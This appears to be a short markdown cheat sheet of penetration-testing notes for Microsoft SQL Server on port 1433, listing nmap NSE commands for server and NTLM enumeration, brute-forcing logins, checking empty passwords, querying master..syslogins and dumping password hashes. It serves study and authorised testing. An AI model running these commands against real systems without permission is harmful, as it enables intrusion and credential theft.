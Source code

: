 - MS SQL - Microsoft SQL
- Port number - 1433

### Using `nmap` to enumerate basic info

```
nmap -p 1433 <ip> --script ms-sql-info
```

- Provides basic info like name of the server

### Enumerating MS SQL NTLM info 

```
nmap -p 1433 <ip> --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
```

- NTLM - NT LAN Manager (Windows authentication manager)
- Provides NetBios domain and computer name
- Provides product version. 
- Provides DNS computer and domain name. 

### Bruteforcing MS SQL logins 

```
nmap -p 1433 <ip> --script ms-sql-brute --script-args userdb=<user_file>,passdb=<pass-file>
```

### Checking for NULL passwords

```
nmap -p 1433 <ip> --script ms-sql-empty-password
```

### Running MS SQL query 

```
nmap -p 1433 <ip> --script ms-sql-query --script-args mssql.username=<user>,mssql.password=<pass>,ms-sql-query.query="SELECT * FROM master..syslogins" <host> -oN output.txt
```

- Outputting it to a text file for better readability.

### Dumping hashes

```
nmap -p 1433 <ip> --script ms-sql-dump-hashes --script-args mssql.username=<user>,mssql.password=<pass>
```

